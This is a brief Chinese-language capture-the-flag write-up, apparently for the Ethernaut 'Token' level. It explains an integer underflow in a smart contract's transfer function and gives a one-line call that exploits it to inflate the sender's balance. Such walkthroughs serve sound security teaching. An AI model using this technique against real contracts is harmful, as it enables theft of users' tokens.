 ## 5. Token

简单的整数溢出，没啥好说的。`transfer`里面的`require`检查就是个摆设，uint之间的运算不可能得出负数。

```js
await contract.transfer(contract.address, 21)
```

